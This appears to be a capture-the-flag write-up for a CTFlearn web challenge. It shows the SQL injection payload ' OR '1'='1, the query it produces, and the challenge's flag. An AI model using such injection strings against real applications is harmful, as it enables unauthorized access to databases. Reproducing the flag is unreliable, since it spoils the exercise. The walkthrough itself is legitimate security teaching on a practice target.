 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)
> Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

- The website takes user input and puts it in an SQL query.

![1](https://github.com/Knign/Write-ups/assets/110326359/f98b874a-d191-472b-bc05-adbab942fe19)

- We want our input to be such that the query's login is true.
```
' OR '1'='1
```
- The input will cause the SQL query to look as follows:
```
SELECT * FROM webfour.webfour where name = '' OR '1'='1'
```
- As the `name` field is blank and 1 is always equal to 1, the entire database is leaked.

![2](https://github.com/Knign/Write-ups/assets/110326359/a1325124-e3f5-4177-ac03-287a7aab2cec)

## Flag
```
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```
